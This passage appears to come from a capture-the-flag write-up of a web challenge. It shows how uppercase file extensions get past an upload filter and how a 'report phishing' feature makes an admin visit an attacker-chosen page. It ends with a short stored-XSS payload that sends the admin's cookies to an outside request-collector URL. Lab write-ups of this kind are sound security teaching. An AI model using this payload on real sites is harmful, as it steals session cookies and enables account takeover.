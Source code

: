 And even edit it:

![](images/bugler3.png)

Notice how the "edit profile" page provides the ability to upload a profile picture.

The site rejects files with an `*.html`, `*.htm` or `*.js` extension, but accepts such files if the extension is UPPERCASE. **This means that we have the ability to store HTML and Javascript on the website server!**

Another feature that the website has is the "report phishing" capability. If we enter a website, we can then click a "report phishing" button in order to report it to the admin:

![](images/bugler4.png)

The admin later visits this website to check it. **This means that we have the ability to cause the admin to visit a website of our choice!**

The next obvious step is to upload a malicious HTML page as the profile picture and have the admin visit this page.

We'll try to steal the admin's cookies using this method:

```html
<script>
fetch("https://endlbdl92l0m4.x.pipedream.net/?cookie=" + btoa(document.cookie));
</script>
```
